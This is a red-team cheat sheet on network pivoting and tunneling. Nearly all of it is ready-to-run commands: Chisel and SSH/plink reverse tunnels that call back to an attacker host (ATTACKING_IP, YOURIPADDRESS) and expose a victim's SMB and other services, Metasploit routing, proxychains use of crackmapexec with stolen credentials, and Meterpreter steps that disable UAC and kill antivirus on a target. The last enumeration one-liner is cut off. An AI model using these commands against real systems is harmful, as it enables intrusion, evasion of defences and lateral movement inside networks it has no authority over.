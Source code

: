 # Tunneling / Port Forwarding / Pivoting  
 Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tuneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 
 - [Tunneling / Port Forwarding / Pivoting](#tunneling---port-forwarding---pivoting)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
- [Linux Port Forwarding](#linux-port-forwarding)
  * [SShuttle](#sshuttle)
- [Windows Port Forwarding](#windows-port-forwarding)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)

## SSH 
In SSH session: press enter a few times then ~C to append more tunnels to command (open command line mode). 
Config file: /etc/ssh/sshd_config. Need to restart SSH service whenever config changes are made.       

    /usr/sbin/sshd -t    #validate SSH config    
    systemctl status ssh    #view SSH server status 
    systemctl restart ssh   #restart SSH 
    systemctl stop ssh   #stop SSH server 
    systemctl start ssh   #Start SSH   
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target. Default local ip is 0.0.0.0

    ssh -p <port> user@pivot -L <local ip for specific interface>:<local port on attack box>:<target host>:<target port> 
    
### Reverse Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    open up pivot pivot to forward traffic back to local Kali box 
    ssh -R <pivot port>:localhost:<local port> user@<pivot ip> 
    
### Dynamic Tunnels           
Set up dynamic tunnels to scan through them (see scanning section below for more details)     

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

    
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box 
### Chisel socks Reverse Proxy 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    ./chisel server -p LISTEN_PORT --socks5  
    attack    ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    ./chisel server -p LISTEN_PORT 
    attack    ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 
 
## Metasploit Tunneling   
Route pivoting:    

    msf (meter) > bg 
    msf > router add 10.10.10.0/24 1   #add route to session 1, then scan or exploit using the session     
    Can then use scanners / commands like: auxiliary/scanner/portscan/tcp, nmap, dn_nmap modules.        
    msf (meter) > run arp_scanner -r 10.10.10.0/24    

 # Linux 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 ## IPTables 
 
     iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.20:22 

 
 # Windows           
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT    
## Portproxy

    netsh interface portproxy add <type> listenport=<port in> connectport=<port out> connectaddress=<destination>  
    <type> can be v4tov4, v4tov6, v6tov4, v6tov6      
    netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80    


## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
[upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  

     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     [generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target ] 
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
     
# Scanning though a pivot 
uploading static binaries from [here](https://github.com/andrew-d/static-binaries)  
Nmap scanning through a dynamic SOCKS proxy - need TCP full connect scan (-sT).    
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy        
Nmap scan through proxychains (only -sT will work):    

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
Use WinRM through proxychains:    

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
RDP through ProxyChains:     

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      
    
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    meter > C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
## Network Enumeration Commands    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " " 

